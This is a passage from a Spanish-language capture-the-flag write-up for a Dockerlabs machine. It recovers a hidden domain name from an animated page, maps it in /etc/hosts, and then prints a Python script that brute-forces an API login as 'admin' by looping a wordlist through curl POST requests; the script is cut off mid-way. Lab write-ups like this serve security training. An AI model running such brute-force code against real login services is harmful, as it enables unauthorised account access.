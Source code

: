 Si probamos a poner lo siguiente:

```
URL = http://<IP>/matrix.php
```

Veremos que si nos funciona, veremos una lluvia de codigo en la pagina, lo malo es que no podremos inspeccionar nada, ni utilizar `curl` o `wget` para traernos el archivo de la pagina, ni nada de eso para ver su codigo fuente, pero si esperamos un poco, podremos ver que se nos va resaltando palabras en un tono mas anaranjado formando una especie de palabra.

Despues de un rato de analizar esa secuencia de palabras, me da como resultado la siguiente frase:

```
secure-api-register
```

Tambien podremos capturar la respuesta del servidor mediante `BurpSuite` y obtener el codigo fuente para poder ver el `JavaScript` y obtener la palabra.

Teniendo esta palabra, podemos deducir que puede ser de un dominio, le añadiremos un `.dl` al final ya que esta subido en `Dockerlabs`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>               secure-api-register.dl
```

Lo guardamos y entramos mediante ese dominio.

```
URL = http://secure-api-register.dl/
```

Veremos un login respecto a una `API` en la nube, pero las credenciales por defecto no nos van a funciona, si nosotros probamos a meter como usuario `admin` y como contraseña tendremos que realizar fuerza bruta de la siguiente forma:

> brutePass.py

```python
import subprocess
import sys

def brute_force(url, username, wordlist):
    try:
        with open(wordlist, "r", encoding="utf-8") as file:
            for password in file:
                password = password.strip()
                print(f"[*] Probando: {password}")

                # Construir el comando curl
                cmd = [
                    "curl", "-X", "POST", url,
                    "-H", "Content-Type: application/json",
                    "-d", f'{{"username": "{username}", "password": "{password}"}}',
                    "-c", "cookie.txt"
                ]

                # Ejecutar el comando y capturar la salida
                result = subprocess.run(cmd, capture_output=True, text=True)
                
                # Revisar la respuesta
                if '{"message":"Invalid credentials"}' not in result.stdout:
                    print(f"[+] Credenciales válidas encontradas: {username}:{password}")
                    break  # Terminar si encuentra una credencial válida
            else:
                print("[-] No se encontraron credenciales válidas.")
    except FileNotFoundError:
```
